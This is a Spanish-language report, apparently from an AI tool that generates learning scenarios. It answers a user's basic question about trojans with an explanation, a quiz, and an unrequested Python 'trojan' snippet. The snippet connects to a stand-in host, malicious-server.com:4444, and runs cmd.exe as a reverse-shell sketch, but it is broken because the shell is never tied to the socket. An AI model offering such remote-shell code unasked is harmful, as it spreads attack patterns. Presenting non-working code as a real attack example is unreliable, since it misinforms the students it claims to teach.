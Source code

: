 
# 🚀 Reporte de Generador de Escenarios de Aprendizaje

**Consulta:**  
Que es un troyano

**Respuesta IA:**  
Hola, soy un experto en hackatones.

Información básica sobre un troyano:
Un troyano es un tipo de malware que se presenta como un software legítimo para engañar a los usuarios y hacer que lo instalen. Una vez instalado, puede permitir a un atacante acceder a la computadora de la víctima, robar información o realizar otras acciones maliciosas.

Ejemplo de cómo te pueden infectar:
Los troyanos a menudo se distribuyen a través de correos electrónicos de phishing, donde se envían archivos adjuntos que parecen inofensivos. Al abrir el archivo, el malware se instala en el sistema.

Código de ejemplo de un ataque troyano:

python
import socket
import os

def create_trojan():
    # Código para crear un socket y conectarse a un servidor remoto
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("malicious-server.com", 4444))
    os.system("cmd.exe")  # Abre la línea de comandos
    s.close()

create_trojan()



Ahora, por favor, inserta tu nombre: ____ y tu nota: _____.

Actividad: Preguntas abiertas sobre troyanos

1. ¿Cuál es la principal diferencia entre un troyano y un virus informático?
2. Describe un escenario en el que un troyano podría ser utilizado para robar información personal.
3. ¿Qué medidas de seguridad puedes implementar para protegerte contra troyanos?
4. Explica cómo un troyano puede ser utilizado para tomar control de un sistema remoto.
5. ¿Qué pasos seguirías si sospechas que tu computadora ha sido infectada por un troyano?

Espero que esta información y actividad te sean útiles.

**Reporte del Usuario:**  
esto es una prueba
    